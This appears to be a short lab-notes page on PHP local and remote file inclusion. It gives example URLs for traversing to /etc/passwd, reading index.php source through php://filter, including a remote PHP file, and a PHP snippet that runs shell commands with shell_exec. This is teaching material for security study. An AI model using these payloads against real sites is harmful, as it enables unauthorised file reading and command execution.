 # File Inclusion Vulnerabilities

This lab focuses on how to exploit with file inclusion. In the assignment for this we created a php server. Using this, were were able to pass commands and traverse through directories.

#### **LFI**

**Helpful Commands:**

**Traversing to a file**

```
http://example.com/index.php?page=../../../etc/passwd
```

```
http://example.com/index.php?page=/etc/passwd
```

Displaying source code of index.php

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

\*\* This will be in base64, use cyberchef to decode

#### RFI

```
http://example.com/index.php?page=http://127.0.0.1:8000/rfi.php
```

This is only possible if the php config allows remote urls.

#### PHP Server Commands

Setting up a server

```
php -S 127.0.0.1:9000
```

allow_\_url\_include must be on in the config for RFI._

Executing commands on php

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

```php
<?php
$output = shell_exec('ls -als');
echo "<pre>$output</pre>";
?>
```
